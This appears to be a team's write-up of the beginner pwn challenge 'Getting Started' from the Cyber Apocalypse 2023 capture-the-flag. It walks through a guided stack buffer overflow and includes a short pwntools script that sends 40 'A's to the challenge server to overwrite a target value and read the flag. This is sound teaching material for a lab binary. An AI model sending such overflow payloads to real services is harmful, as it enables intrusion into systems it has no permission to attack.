 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2023 | Getting Started Writeup
desc: Check out our writeup for Getting Started for Cyber Apocalypse 2023 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2023
parent: cyber_apocalypse_2023
category: pwn
challenge: Getting Started
tags: "pwn, legend, python"
date: 2023-03-27T00:00:00+00:00
last_modified_at: 2023-03-27T00:00:00+00:00
---
```



> Solved by Legend

Challenge description


> Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

In this challenge a challenge binary is given and a  `wrapper.py` file is given the code for buffer overflow.

![](https://i.imgur.com/6RwoC4j.png)


Executing the binary shows the Stack frame layout.

![](https://i.imgur.com/wgdbdWW.png)


After that it shows the stack with Address and Value along with indicators to where is the start of the buffer and what is the Target that needs to be changed.

![](https://i.imgur.com/XMsmiMc.png)


Then it shows what happens if we put A’s and B’s as input.

![](https://i.imgur.com/WGVoYSc.png)


Then it asks us to enter A’s to get change the value in Target. I placed 40 A’s and it grave the testing flag.

![](https://i.imgur.com/uUVYySG.png)


Now same can we done in the given script to automate this.


    #wrapper.py#!/usr/bin/python3.8
    
    '''
    You need to install pwntools to run the script.
    To run the script: python3 ./wrapper.py
    '''
    
    # Library
    from pwn import *
    
    # Open connection
    IP   = '165.232.98.69' # Change this
    PORT = 32238      # Change this
    
    r    = remote(IP, PORT)
    
    # Craft payload
    payload = b'A' * 40 # Change the number of "A"s
    
    # Send payload
    r.sendline(payload)
    
    # Read flag
    success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')

Running the script gave the flag.

![](https://i.imgur.com/krCUZGU.png)


